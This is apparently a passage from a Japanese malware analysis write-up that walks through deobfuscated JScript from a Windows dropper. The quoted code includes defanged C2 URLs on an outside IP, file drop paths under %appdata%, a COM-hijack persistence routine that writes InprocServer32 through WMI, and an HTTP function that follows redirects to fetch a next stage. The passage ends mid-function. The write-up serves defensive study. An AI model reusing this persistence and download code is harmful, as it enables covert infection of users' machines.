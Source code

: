 特徴的なところは以下でしょうか。  

1. HTTPアクセスは300(リダイレクト系)になるようにしている  
2. ファイルの作成とレジストリ操作で終了している  

このため、最初の感染時はほとんど悪性挙動をしていません。これは重要なところですね。  
さて、いくつか実際にコードを見ていきましょう。  
まずは、URLの定義などを見ていきます。

```js
    // 省略
	folder_location="%appdata%\Microsoft\Internet Explorer\UserData\qwe";
	folder_location2="%appdata%\Microsoft\Internet Explorer\UserData\Temp"
	observer_url_32="hxxp://131[.]226[.]4[.]22/manager/VYtpPTc8UE2zG4dH[.]bmp";
	observer_url_64="hxxp://131[.]226[.]4[.]22/manager/JxQpe5T2nCn747UP[.]bmp";
    // 省略
   	var f_loc  =dir_loc["concat"]("\\mssysmon[.]db");
	var f_loc2 =dir_loc2['concat']("\\mssysmon[.]db");
    var reg_inprocsvr32 ="Software\Classes\CLSID\{603D3801-BD81-11d0-A3A5-00C04FD706EC}\InprocServer32";
    // 省略
```

この辺りがファイル作成先やレジストリ操作対象、アクセス先URLなどです。  

さて、まずはレジストリ操作関連を見ていきましょう。これは`Write_Reg`という関数で行っています。  
COM系の処理ですね。これが永続系の処理となると思われます。  

```js
// Write_Reg(0x80000001, reg_inprocsvr32, cpu_arch, dir_loc2, f_loc2);
function Write_Reg(arg1, arg2, arg3, arg4, arg5){
	// SWbemはWMI関連の操作
	SWbemValueSet=new ActiveXObject("WbemScripting.SWbemNamedValueSet");
	SWbemLocator=new ActiveXObject("WbemScripting.SWbemLocator");
	SWbemValueSet["Add"]("__ProviderArchitecture",arg3);
	var wmi_mypc_default=SWbemLocator["ConnectServer"](
					'',"root\\Default",'','','','',0x0,SWbemValueSet);
	var wmi_reg=wmi_mypc_default["Get"]("StdRegProv");
	var reg_create_op=wmi_reg['Methods_']("Createkey")['InParameters'];
	reg_create_op['Hdefkey']=arg1;
	reg_create_op["Ssubkeyname"]=arg2;
	wmi_reg['ExecMethod_']("Createkey", reg_create_op, 0x0, SWbemValueSet);
	reg_create_op=wmi_reg["Methods_"]("SetStringValue")["Inparameters"];
	reg_create_op['Hdefkey']=arg1;
	reg_create_op["Ssubkeyname"]=arg2;
	reg_create_op["Svalue"]=arg5;
	wmi_reg['ExecMethod_']("SetStringValue", reg_create_op, 0x0, SWbemValueSet);
}
```

このため、ファイル作成前にまずはレジストリ登録だけやっています。  
次にURLアクセスがされています。これは`Send_Query`で行われます。ここを見るとステータスは300で応答されるのを想定していることがわかります。  

```js
function send_Query(arg1){
	var http_req=new ActiveXObject("WinHttp.WinHttpRequest.5.1"));
	var http_xml=new ActiveXObject("MSXML2.XMLHTTP.6.0");
	try{
		// 0x20 is x86. 0x40 is x64
		if(arg1==0x20){
			http_req["open"]("GET",observer_url_32,![]);
			http_req["send"]();
			if(http_req['status']>=0x12c){ // 12c is 300
				var res_hdr_loc=http_req["getResponseHeader"]("Location");
				http_xml["open"]("GET", res_hdr_loc,![]);
				http_xml["send"]();
			}else{
				http_xml["open"]("GET", observer_url_32,![]);
```